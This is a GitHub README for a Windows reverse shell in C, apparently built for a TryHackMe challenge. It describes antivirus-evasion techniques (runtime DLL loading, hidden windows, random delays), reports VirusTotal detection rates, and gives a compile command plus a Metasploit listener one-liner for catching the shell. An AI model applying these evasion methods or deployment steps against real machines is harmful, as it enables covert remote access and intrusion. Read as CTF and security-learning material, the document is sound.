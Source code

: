 # Metasploit C Custom Reverse Shell

A minimal Windows reverse shell implementation in pure C. This repository demonstrates a low-detection reverse shell that uses dynamic loading and Windows API to establish a reverse connection.

## About

I was doing a CTF on tryhackme which required a 64 bit binary and didn't want to use nim to bypass defender. Was wondering how hard it would be to set one up. Nims default detections are: 36/73 - however notably it can still bypass defender. 
- https://github.com/Sn1r/Nim-Reverse-Shell/tree/main

<p align="center">
  <img src="https://github.com/pentestfunctions/metasploit_c_custom/blob/main/images/Metasploit_Connection.gif">
</p>

## Overview

This project contains a simple, customizable reverse TCP shell for Windows systems written in C. It's designed to be:

- Lightweight (small binary size) (65KB)
- Low detection rate (6/71 on VirusTotal as of March 2025)
- Customizable (IP and port can be defined at compile time)
- Compatible with both 32-bit and 64-bit Windows

## Technical Details

The code uses several techniques to minimize detection and maintain compatibility:

1. **Dynamic DLL Loading**: Instead of static linking to ws2_32.dll, the code loads it at runtime using LoadLibraryA, reducing suspicious import table entries.

2. **Function Pointer Resolution**: All network functions are resolved via GetProcAddress, avoiding direct imports of networking functions commonly flagged by AVs.

3. **Minimal Dependencies**: Only Windows.h is included, using WIN32_LEAN_AND_MEAN to reduce header size.

4. **No Winsock Headers**: The code manually defines all necessary Winsock structures and constants rather than including winsock2.h.

5. **Console Window Hiding**: Uses GetConsoleWindow() and ShowWindow() to hide the console window when executed.

6. **Random Delay**: Implements a small random delay before connection to potentially evade runtime behavior analysis.

7. **Reused Socket Handle**: Uses the socket as standard input/output/error for the cmd process, eliminating the need for manual data forwarding.

8. **Process Creation with Hidden Window**: Creates the command shell with CREATE_NO_WINDOW flag to prevent visible windows.

9. **Clean Resource Handling**: Properly closes handles and frees resources, helping avoid detection by resource monitoring.

## Compilation

To compile with TDM-GCC:

```bash
gcc -O2 backdoor.c -o backdoor_tdm.exe -mwindows
```

## AV Detection Comparison

The current build has 6/71 detections on VirusTotal (as of March 21, 2025) but these will increase as time goes on due to the way virustotal works:
https://www.virustotal.com/gui/file/945b20261ce44660aa6b9f4db5161cf94df11c2943f812a3e1317bc845695a95?nocache=1

- DeepInstinct: MALICIOUS
- Elastic: Malicious (high Confidence)
- Google: Detected
- Ikarus: Trojan.Win64.Reverseshell
- SecureAge: Malicious
- Symantec: ML.Attribute.HighConfidence

## Compiler Detection Influence

Even harmless Hello World programs trigger false positives with certain compiler flags:

```c
#include <stdio.h>

int main() {
    printf("Hello, World!\n");
    return 0;
}
```

Detection rates by compiler/flags:

| Compiler Command | Detections | Notable Detectors |
|------------------|------------|-------------------|
| x86_64-w64-mingw32-gcc -o hello1.exe hello.c | 7/73 | AhnLab-V3, Elastic, Google |
| x86_64-w64-mingw32-gcc -o hello2.exe hello.c -s -Os | 3/73 | Google, Ikarus, SecureAge |
| x86_64-w64-mingw32-gcc -o hello4.exe hello.c -static | 7/73 | AhnLab-V3, Elastic, Google |
| x86_64-w64-mingw32-gcc -o hello5.exe hello.c -s -Wl,--strip-all | 4/73 | Google, Ikarus, SecureAge |

## Usage

1. Replace `YOUR_IP_HERE` with your actual IP address
2. Compile using `gcc -O2 backdoor.c -o github_gcc_test.exe` on a windows machine
3. Set up a metasploit listener on your machine: `msfconsole -q -x "use exploit/multi/handler; set LHOST eth0; set LPORT 4444; set Payload generic/shell_reverse_tcp; run -j"`
4. Run the executable on the target Windows machine

NOTES: Change tun0 to eth0 or whatever you need for your VM environment or local network. 

## Disclaimer

This code is provided for educational purposes only. Use only on systems you own or have permission to test. Unauthorized access to computer systems is illegal and unethical.

## License

MIT
